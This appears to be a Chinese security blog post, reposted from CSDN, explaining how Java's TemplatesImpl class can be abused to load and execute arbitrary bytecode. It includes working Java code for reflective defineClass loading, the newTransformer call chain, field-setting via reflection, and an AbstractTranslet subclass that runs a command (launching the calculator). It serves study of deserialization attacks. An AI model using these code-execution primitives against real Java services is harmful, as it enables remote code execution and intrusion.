





# 利用TemplatesImpl执行字节码

## 写在前面

由于之前CSDN我自己也写得很详细了，这里就直接搬运过来，当然其中一些小细节我也进行了补充

## defineClass

介绍之前首先还是要知道defineClass的利用方式，下面给出简单的代码

```java
public class TouchFile{
    
    public TouchFile() throws Exception {
        Runtime.getRuntime().exec("calc");
    }
    
}
```
把它编译成字节码后Base64
之后运行

```java
Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);
defineClass.setAccessible(true);
byte[] code =Base64.getDecoder().decode("yv66vgAAADQAHgoABgARCgASABMIABQKABIAFQcAFgcAFwEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAYAQAEbWFpbgEAFihbTGphdmEvbGFuZy9TdHJpbmc7KVYBAApTb3VyY2VGaWxlAQAOVG91Y2hGaWxlLmphdmEMAAcACAcAGQwAGgAbAQAEY2FsYwwAHAAdAQAJVG91Y2hGaWxlAQAQamF2YS9sYW5nL09iamVjdAEAE2phdmEvbGFuZy9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAACAAEABwAIAAIACQAAAC4AAgABAAAADiq3AAG4AAISA7YABFexAAAAAQAKAAAADgADAAAAEAAEABEADQASAAsAAAAEAAEADAAJAA0ADgACAAkAAAAmAAIAAQAAAAq4AAISA7YABFexAAAAAQAKAAAACgACAAAAFgAJABcACwAAAAQAAQAMAAEADwAAAAIAEA==");
Class yyds= (Class) defineClass.invoke(ClassLoader.getSystemClassLoader(), "TouchFile", code, 0, code.length);
yyds.newInstance();
```
成功弹出了计算器

## 利用TemplatesImpl执行字节码


但是在实际场景中，因为defineClass方法作用域却是不开放的，所以我们很很难直接利用到它，因此就出现了这篇文章`TemplatesImpl`来加载字节码，可以看到在`TransletClassLoader`中的`defineClass`调用了此方法

再往上`TemplatesImpl`的`defineTransletClasses`方法
再往上`TemplatesImpl`的`getTransletInstance`方法


再往上`TemplatesImp`l的`newTransformer`方法，此时已经是public方法了外面可以直接调用，不需要再继续网上跟了

因此我们得到了一条完整的利用链

```java
TemplatesImpl#newTransformer() ->
TemplatesImpl#getTransletInstance() ->
TemplatesImpl#defineTransletClasses() ->
TransletClassLoader#defineClass()
```
执行

```java
byte[] code =Base64.getDecoder().decode(“");
TemplatesImpl obj = new TemplatesImpl();
setFieldValue(obj, "_class", null);
setFieldValue(obj, "_bytecodes", new byte[][]{code});
setFieldValue(obj, "_name", "yyds");
setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
obj.newTransformer();
```
其中setFieldValue是利用反射给私有变量赋值如下

```java
public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
    Field field = obj.getClass().getDeclaredField(fieldName);
    field.setAccessible(true);
    field.set(obj, value);
}
```

注意`_tfactory` 必须为`TransformerFactoryImpl` 对象，另外，`TemplatesImpl` 中对加载的字节码是有一定要求的：这个字节码对应的类必须
是 `com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet `的子类



```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class Yyds extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }

    public Yyds () throws Exception  {
        super();
        Runtime.getRuntime().exec("calc");
    }
}
```
